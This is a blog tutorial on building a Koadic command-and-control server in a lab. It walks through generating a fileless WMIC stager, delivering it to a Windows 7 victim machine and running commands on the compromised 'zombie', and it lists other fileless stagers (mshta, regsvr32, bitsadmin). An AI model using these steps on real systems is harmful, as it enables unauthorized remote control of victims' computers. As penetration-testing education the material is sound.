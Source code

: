 ```yaml
---
title: "Create Command and Control Server with Koadic"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey readers. Have you wonder how attacker compromised user and do the "bad things" from their Command and Control (C2) server to its zombies (victims) ?

In this tutorial, let us be that "attacker" and learn how they do this type of attack using a tool named [Koadic](https://github.com/zerosum0x0/koadic).

Disclaimer:
This is for research and education purpose only. Do with your own risk. Dosa guys pedajal orang.

Back to the topic. From their repo, they explained...

"Koadic, or COM Command & Control, is a Windows post-exploitation rootkit similar to other penetration testing tools such as Meterpreter and Powershell Empire. The major difference is that Koadic does most of its operations using Windows Script Host (a.k.a. JScript/VBScript), with compatibility in the core to support a default installation of Windows 2000 with no service packs (and potentially even versions of NT4) all the way through Windows 10.

It is possible to serve payloads completely in memory from stage 0 to beyond, as well as use cryptographically secure communications over SSL and TLS (depending on what the victim OS has enabled)."

## Installation

```
git clone https://github.com/zerosum0x0/koadic.git
cd koadic
pip3 install -r requirements.txt
./koadic
```
## Generate payload
First, we run koadic and use module named wmic.
```
use stager/js/wmic
set srvhost 192.168.83.128
run
```
Note:
Replace the IP with your own.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/1.png)
## Deliver payload

Copy the fileless `wmic` command and deliver to your target. In case here, I'm just copy and paste into my targeted virtual machine (Win7). This serves payloads in memory using WMIC. So, we can consider this as fileless malware cause it serves in memory. 

For example of delivering payload, you can do technique like [malicious .lnk](https://fareedfauzi.github.io/blog-post/Create-malicious-lnk/) to compromise user.

So, after press enter in cmd. The payload should be run.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/2.PNG)

Switch back to our kali machine, focus back to our terminal.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/3.PNG)

You will notice that our target machine now will become our first zombie.
If we issue command `zombies 0`, it will give information about the compromised user (our first zombie).

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/4.PNG)

## Execute Command using Koadic

Using module `exec_cmd`, we specify the command that we want to execute. In this case, I give `calc.exe` as command that I want to execute.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/5.PNG)
```
use implant/manage/exec_cmd
set cmd calc.exe
set zombie 0
run
```
And calc.exe will be executed. Hooray 🎉.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/6.PNG)

We're now "king" for our zombies.

Let's try with other command line program.

```
set cmd ipconfig
set zombie 0
run
```

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/7.PNG)

Let's demonstrate all the method in a .gif. Please zoom-in the gif if you can't see clearly.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/cnc/a.gif)

## Last but not least
For stagers, instead of using wmic as our fileless malware, this tool have other option like mshta and etc.

Module | Description | Malware Category
--------|------------|-----
stager/js/mshta | serves payloads in memory using MSHTA.exe HTML Applications | File-less
stager/js/regsvr | serves payloads in memory using regsvr32.exe COM+ scriptlets | File-less
stager/js/rundll32_js | serves payloads in memory using rundll32.exe | File- less
stager/js/disk | serves payloads using files on disk | File-based
stager/js/wmic | serves payloads in memory using WMIC | File-less
stager/js/bitsadmin | transfers a .wsf payload containing JScript over a Bitsadmin job and executes it | File-less

You can read more in [Koadic repository](https://github.com/zerosum0x0/koadic) readme[.]md .

That's all. Thanks for reading!
